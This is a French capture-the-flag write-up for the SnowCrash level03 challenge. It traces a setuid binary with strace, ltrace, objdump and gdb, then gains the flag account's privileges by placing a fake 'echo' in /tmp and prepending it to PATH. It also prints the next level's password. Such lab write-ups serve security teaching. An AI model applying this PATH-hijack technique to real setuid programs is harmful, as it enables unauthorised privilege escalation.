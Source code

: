 LEVEL 03

------------------------------------------------------------------------------------------------------------------------


    find . -perm /u=s,g=s
    -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03*
    ll              --> l'exécutable level03 est SUID

    * Analyse n°1

    ll /usr/bin | grep trace
        -rwxr-xr-x 1 root   root     135040 Dec  5  2011 ltrace
        -rwxr-xr-x 1 root   root       6522 Mar 26  2015 mtrace
        -rwxr-xr-x 1 root   root     231180 May 26  2011 strace

    ltrace ./level03 --> Intéressant
    mtrace ./level03 --> RAS
    strace ./level03 --> Intéressant

        getegid32()                          -> Obtenir l'identifiant du groupe    
        geteuid32()                          -> Obtenir l'identifiant de l'utilisateur  
        setresgid32(2003, 2003, 2003)        -> Fixer les UID ou les GID
        setresuid32(2003, 2003, 2003)

        getegid()                                                                = 2003
        geteuid()                                                                = 2003
        setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                      = 0
        setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                      = 0

        int setresuid(uid_t ruid, uid_t euid, uid_t suid);
        int setresgid(gid_t rgid, gid_t egid, gid_t sgid);  
    
    https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/
    BOF : https://github.com/Bretley/how2exploit_binary/blob/master/exercise-2/README.md#:~:text=The%20PLT%20is%20a%20wrapper,you'll%20call%20system()%20.
    NASM : https://www.unilim.fr/pages_perso/tristan.vaccon/cours_nasm.pdf
    GDB : http://sdz.tdct.org/sdz/deboguer-son-programme-avec-gdb.html
    

    cat /etc/passwd                             --> 2003 match effectivement level03

    * Analyse n°2

    objdump -d ./level03

        NB : mov dest, src
        https://www.unilim.fr/pages_perso/tristan.vaccon/cours_nasm.pdf

    * Analyse n°3

    gdb level03     --> 

    system@plt ? Ci-dessous :

        The PLT is a wrapper function for the actual code in libc.
        The PLT is a part of the binary, it's address doesn't change. If you call system@plt , you'll call system().
        Techniquement on pourrait aller cherche le BOF, mais il y a plus simple

* Solution

    
    * Retour à l'analyse 1 (LTRACE)

    http://www-igm.univ-mlv.fr/~dr/NCS/node83.html

    level03@SnowCrash:~$ ltrace ./level03
       
        system("/usr/bin/env echo Exploit me"Exploit me
    
    Le programme level 03 est own par flag03, donc il peut call getflag
    Dedans, on a un call 'echo' depuis /usr/bin/env
    
    /usr/bin/env echo HelloTest

    echo $PATH : /usr/local/sbin:/usr/local/bin:/usr/sbin:      /usr/bin  <ici>    :/sbin:/bin:/usr/games
    On overwrite l'emplacement, avec getflag
    whereis getflag --> /bin/getflag
    cp /bin/getflag /tmp/echo (accès à /tmp)

    ./level03 --> PATH inchangé
    export PATH=/tmp:$PATH
    ./level03 --> Execute getflag :D, en tant que flag03 ofc


    su level04 qi0maab88jeaj46qoumi7maus



------------------------------------------------------------------------------------------------------------------------

    NB : les exécutables sont recherchés de gauche à droite (cf. minishell)
    Donc export PATH=$PATH:/tmp ne fonctionne pas
